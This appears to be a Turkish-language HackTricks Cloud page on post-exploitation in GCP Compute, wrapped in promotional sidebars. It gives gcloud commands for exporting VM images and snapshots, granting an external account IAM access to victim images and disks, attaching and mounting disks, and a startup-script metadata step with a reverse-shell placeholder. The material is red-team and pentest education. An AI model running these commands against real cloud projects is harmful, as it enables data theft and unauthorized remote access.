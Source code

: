 # GCP - Compute Post Exploitation

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'ı **takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>

## Hesaplama

Hesaplama ve VPC (Ağ) hakkında daha fazla bilgi için:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Görüntüleri Yerel Olarak Dışa Aktar ve İncele

Bu, bir saldırganın **zaten mevcut görüntülerin içinde bulunan verilere erişmesine** veya **çalışan sanal makinelerin yeni görüntülerini oluşturmasına** ve çalışan VM'lerin verilerine erişmesine olanak tanır.

Bir VM görüntüsünü bir kovaya dışa aktarmak ve ardından aşağıdaki komutla indirip yerel olarak bağlamak mümkündür:

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```

Bu işlemi gerçekleştirmek için saldırganın depolama kovasına ve kesinlikle **cloudbuild üzerinde ayrıcalıklara** ihtiyacı olabilir çünkü bu işlemi gerçekleştirmek için **hizmet** istenecektir.\
Ayrıca, bu işin çalışması için codebuild SA ve compute SA'nın ayrıcalıklı izinlere ihtiyacı vardır.\
cloudbuild SA `<proje-id>@cloudbuild.gserviceaccount.com` şunlara ihtiyaç duyar:

* roller/iam.serviceAccountTokenCreator
* roller/compute.admin
* roller/iam.serviceAccountUser

Ve SA `<proje-id>-compute@developer.gserviceaccount.com` şunlara ihtiyaç duyar:

* roller/compute.storageAdmin
* roller/storage.objectAdmin

### Anlık Görüntüleri ve Diskleri Yerel Olarak Dışa Aktarın ve İnceleyin

Anlık görüntüleri ve diskleri doğrudan dışa aktarmak mümkün değildir, ancak bir anlık görüntüyü bir diske, bir diski bir görüntüye **dönüştürmek** ve **önceki bölümü** takip ederek bu görüntüyü yerel olarak incelemek mümkündür.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Bir Görüntüyü İnceleme ve Bir Sanal Makine Oluşturma

Bir saldırganın bir görüntü oluşturduğu yerden bir görüntüde depolanan verilere veya çalışan bir sanal makinedeki verilere erişmek amacıyla, bir harici hesaba görüntü üzerinde erişim vermek mümkündür:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

ve ardından ondan yeni bir VM oluşturun:

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

Eğer dış hesabınıza görüntü üzerinde erişim veremediyseniz, kurbanın projesinde o görüntüyü kullanarak bir sanal makine başlatabilir ve metadata'yı geriye dönük bir kabuk çalıştırmak için değiştirebilirsiniz. Bunun için parametre ekleyin:

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### Bir Snapshot/Disk'i bir VM'ye bağlayarak İnceleyin

Bir diske veya snapshot'a erişmek amacıyla, snapshot'ı bir diske, diski bir görüntüye dönüştürebilir ve önceki adımları takip edebilirsiniz.

Veya **harici bir hesaba erişim izni verebilirsiniz** (başlangıç noktası bir snapshot ise, snapshot üzerinde erişim izni verin veya ondan bir disk oluşturun):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**Bir diski** bir örneğe bağlayın:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

Sanal makine içinde diski bağlayın:

1. **Sanal makineye SSH ile bağlanın**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2. **Diski Tanımlayın**: Sanal makineye girdikten sonra, disk cihazlarını listelerken yeni diski tanımlayın. Genellikle `/dev/sdb`, `/dev/sdc` gibi bir şekilde bulabilirsiniz.
3. **Diski Biçimlendirin ve Bağlayın** (yeni veya ham bir diskse):

* Bir bağlama noktası oluşturun:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

* Diski bağlayın:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Eğer **bir dış projeye snapshot veya diske erişim veremezseniz**, bu işlemleri snapshot/disk ile aynı projedeki bir örnekte gerçekleştirmeniz gerekebilir.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmaya kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek veya HackTricks'i PDF olarak indirmek için** [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) **kontrol edin**!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) **edinin**
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) **koleksiyonumuzu keşfedin**, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family)
* **💬** [**Discord grubuna**](https://discord.gg/hRep4RUj7f) **veya** [**telegram grubuna**](https://t.me/peass) **katılın veya** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin**.
* **Hacking hilelerinizi HackTricks ve HackTricks Cloud github depolarına PR göndererek paylaşın**.

</details>
